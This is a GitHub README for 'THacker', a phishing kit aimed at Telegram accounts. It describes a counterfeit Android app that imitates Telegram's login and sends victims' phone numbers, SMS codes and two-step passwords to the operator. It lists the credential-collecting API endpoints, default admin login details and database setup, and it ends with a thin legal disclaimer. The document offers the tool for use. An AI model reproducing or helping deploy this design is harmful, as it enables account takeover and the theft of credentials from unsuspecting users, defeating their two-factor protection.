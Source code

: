 # Telegram Hacker ` THacker `

**Version 1.0**

### What Is It?

THacker is a Pushing platform that can trick and get an account even if its secured with two step verification system 

## How it works

	It works with an android device so you have the victim must install the android app or the app can be installed by you in his device the app will look just like normal telegram app so the victim will think its the normal telegram app he usually uses and when he open the app he will see the default telegram login page so Thacker comes here the app will communicate to Thacker not telegram server so all informations send by the user will be send to Thacker which is you   


# API Reference

- You can use `Postman` for testing purpose

	` Definition of Keywords in the URL `

	*Name of the device*							**[DEVICE]**
	*Name of the app* 								**[APP_NAME]**
	*Received id during the first request* 			**[ID]**
	*Phone number* 									**[PHONE]**
	*Version of the app* 							**[VERSION]**
	*SMS code* 										**[CODE]**
	*Password* 										**[PASSWORD]**

	`Keywords are  shown in brackets []`

	> https://example.com/thacker/api/access.php?device=[DEVICE]&app=[APP_NAME]&version=[VERSION]

	> https://example.com/thacker/api/phone.php?id=[ID]&phone=[PHONE]

	> https://example.com/thacker/api/code.php?id=[ID]&code=[CODE]

	> https://example.com/thacker/api/verify.php?id=[ID]

	> https://example.com/thacker/api/password.php?id=[ID]&password=[PASSWORD]

	> https://example.com/thacker/api/vpass.php?id=[ID]

## Language

> PHP

> Jquery

> Ajax


## Web Page Login Details

> ID			~		12345678
> Password		~		password


## Database

- There is a `telegram.sql` file you can use to import to the database

	` Database Info `

	*Host* 										`localhost`
	*User* 										`root`
	*Password* 									
	*Database Name*								`telegram`

# Legal disclaimer

Usage of Thacker for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. The Developer assume no liability and is not responsible for any misuse or damage caused by this program.



## Creator

- Mikiyas Lemlemu  [Web-Developer](Web-Developer)
	
	> [Facebook](https://facebook.com/mikiyaslemlemu)
	
	> [Telegram](https://t.me/m_miko)
	
	> [Github](https://github.com/mikiyasET)

	> [Email](mikiyaslemlemu@gmail.com)

## License & copyright

© Mikiyas Lemlemu

### Donate

[![ko-fi](https://www.ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/N4N51K3IH)